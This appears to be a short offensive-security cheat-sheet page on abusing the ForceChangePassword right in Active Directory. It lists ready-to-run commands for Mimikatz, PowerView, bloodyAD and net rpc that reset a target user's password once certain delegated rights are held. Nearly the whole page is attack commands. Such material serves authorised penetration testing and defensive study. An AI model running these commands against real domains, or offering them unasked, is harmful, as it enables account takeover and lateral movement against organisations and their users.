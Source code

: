 # ForceChangePassword

If you hold the `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user, you can change their password.
<style>
    
    code {
      white-space : pre-wrap !important;
    }
    </style>

    
### From Windows
Mimikatz:
```bash
lsadump::setntlm /user:$target_user /password:$target_pass /server:$domain
```

Powershell:
```powershell
$no_md_var_NewPassword = ConvertTo-SecureString '$target_pass' -AsPlainText -Force
Set-DomainUserPassword -Identity '$target_user' -AccountPassword $no_md_var_NewPassword
```

### From Linux

```bash
# With bloodyAD
bloodyAD --host "$dc" -d "$domain" -u "$user" -p "$pass" set password "$target_user" "$target_pass"

# With net rpc
net rpc password "$target_user" -U "$domain"/"$user"%"$pass" -S "$domain"
```
